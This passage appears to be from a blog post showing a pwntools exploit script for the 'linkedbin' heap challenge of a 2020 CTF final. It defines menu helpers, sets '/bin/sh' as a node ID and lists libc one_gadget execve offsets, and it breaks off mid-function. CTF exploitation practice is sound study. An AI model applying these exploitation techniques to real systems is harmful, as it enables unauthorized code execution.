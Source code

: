 {% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski 
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
    generated by skeloski GEF
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/cscctf2020-final/pwn/linkedbin/linkedbin")
elf = ELF(TARGET)
libc = ELF("./libc6_2.27-3ubuntu1.2_amd64.so")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def attach(r):
    if LOCAL:
        bkps = ["* findnode"]
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def insert(ID, content):
    r.sendlineafter(">>","1")
    r.sendlineafter(":",str(ID))
    r.sendlineafter("Content:",content)

def edit(ID, new):
    r.sendlineafter(">>","2")
    r.sendlineafter(":",str(ID))
    r.sendafter(":",new)

def view(ID):
    r.sendlineafter(">>","3")
    r.sendlineafter(":",str(ID))

def remove(ID):
    r.sendlineafter(">>","4")
    r.sendlineafter("ID:",str(ID))

def exploit(r):
    attach(r)
    insert("/bin/sh",  "A"* 62)
    insert(1,  "B"* 62)
    insert(2,  "C"* 62)
    insert(3,  "D"* 62)
    insert(4,  "E"* 62)

    # 0x4f365 execve("/bin/sh", rsp+0x40, environ)
    # constraints:
    # rsp & 0xf == 0
    # rcx == NULL

    # 0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
